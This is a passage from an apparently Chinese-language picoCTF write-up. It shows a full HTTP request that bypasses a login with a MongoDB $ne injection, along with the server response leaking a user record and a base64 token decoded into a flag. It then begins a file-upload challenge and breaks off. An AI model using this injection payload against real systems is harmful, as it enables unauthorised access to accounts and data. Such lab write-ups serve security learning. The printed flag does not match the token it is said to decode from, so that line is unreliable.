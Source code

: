 #### 2. \ "繞過特殊字元
" 在MongoDB屬於特殊字元，可用\ bypass
```POST
POST /api/login HTTP/1.1
Host: atlas.picoctf.net:61553
Content-Length: 58
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://atlas.picoctf.net:61553
Referer: http://atlas.picoctf.net:61553/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

{"email":"{\"$ne\":  \"\"}","password":"{\"$ne\":  \"\"}"}
```
![image](https://hackmd.io/_uploads/B1R51Pe0T.png)
```response
HTTP/1.1 200 OK
vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Accept-Encoding
content-type: text/plain;charset=UTF-8
date: Thu, 14 Mar 2024 10:19:36 GMT
connection: close
Content-Length: 237

[{"_id":"65f08d5715535af6a1394524","email":"joshiriya355@mumbama.com","firstName":"Josh","lastName":"Iriya","password":"Je80T8M7sUA","token":"cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uX2UzMWVmMzI0fQ==","__v":0}]
```

### GET FLAG
>cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uX2UzMWVmMzI0fQ==

(Base64 Decode)
![image](https://hackmd.io/_uploads/rkaEMvgAp.png)

**FLAG:picoCTF{#0TP_Bypvss_SuCc3$S_e1eb16ed}**

## Trickster
![image](https://hackmd.io/_uploads/SkUqBQyA6.png)
http://atlas.picoctf.net:63080/
![image](https://hackmd.io/_uploads/B1airX1Ra.png)
### Trickster Solution
上傳成功只會顯示:
> File uploaded successfully and is a valid PNG file. We shall process it and get back to you... Hopefully
